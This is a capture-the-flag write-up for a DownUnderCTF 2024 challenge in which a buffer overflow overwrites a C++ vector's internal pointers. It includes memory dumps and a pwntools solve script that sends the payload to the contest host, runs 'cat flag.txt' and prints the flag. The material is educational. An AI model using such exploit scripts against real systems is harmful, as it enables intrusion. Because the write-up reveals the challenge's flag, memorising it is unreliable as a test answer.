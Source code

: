 ```yaml
---
created: 2024-07-05T19:31
updated: 2024-07-07T21:39
solves: 239
points: 100
description: Where do vectors point to?
---
```


## Analysis

A simple overflow challenge, where we have to modify a vector's values to `DUCTF`.

```cpp
char buf[16];
std::vector<char> v = {'X', 'X', 'X', 'X', 'X'};
```

Since this is something new for me, let's examine the memory structure with a custom function.

```cpp
#include <iomanip>
void printMemory(void *startAddress, size_t length){
    unsigned char *address = static_cast<unsigned char *>(startAddress);
    for (size_t i = 0; i < length; ++i) {
        std::cout << std::hex << std::setw(2) << std::setfill('0') << static_cast<int>(address[i]) << ' ';
        if ((i + 1) % 16 == 0) std::cout << std::endl;
    }
    if (length % 16 != 0) std::cout << std::endl;
}
```

```
memory starting from 'buf'
44 55 43 54 46 41 41 41 41 41 41 41 41 41 41 41 <buf>
b0 2e 8c 00 00 00 00 00 b5 2e 8c 00 00 00 00 00 <vec>
b5 2e 8c 00 00 00 00 00 00 00 00 00 00 00 00 00 <vec>
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
```

Looking through llvm definitions...

```cpp
template <class _Tp, class _Allocator>
inline _LIBCPP_INLINE_VISIBILITY
__vector_base<_Tp, _Allocator>::__vector_base()
        _NOEXCEPT_(is_nothrow_default_constructible<allocator_type>::value)
    : __begin_(nullptr),
      __end_(nullptr),
      __end_cap_(nullptr)
{
}
```

It seems those three 8 byte values are `begin`, `end` and `end_cap` resp.
## Attack

We can overwrite `buf` to `DUCTFAAAAAAAAAAA`, followed by the address of `buf` encoded, so the vector is now pointing to `buf`.

By looking at the decompiled code of the challenge, we can find the address of `buf` to be `0x4051e0` (with the help of Godbolt).

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720224977/2024/07/ac6d54f8474b94456be9b46d305410db.png)

![image.png](https://res.cloudinary.com/kumonochisanaka/image/upload/v1720225053/2024/07/0961ccc9368b9a43f078e593b3a663b1.png)

We can craft our payload like this.

```python
payload = b'DUCTF' + b'A'*11 + loc + end + end
```

### Solve Script

```python
from pwn import *
context.log_level = 'error'
loc = 0x4051e0
end = loc + 5
loc = loc.to_bytes(8, byteorder='little')
end = end.to_bytes(8, byteorder='little')
payload = b'DUCTF' + b'A'*11 + loc + end + end
conn = remote("2024.ductf.dev", 30013)
conn.sendline(payload)
conn.sendline(b"cat flag.txt")
print(conn.recv())

# b'DUCTF{y0u_pwn3d_th4t_vect0r!!}\n'
```
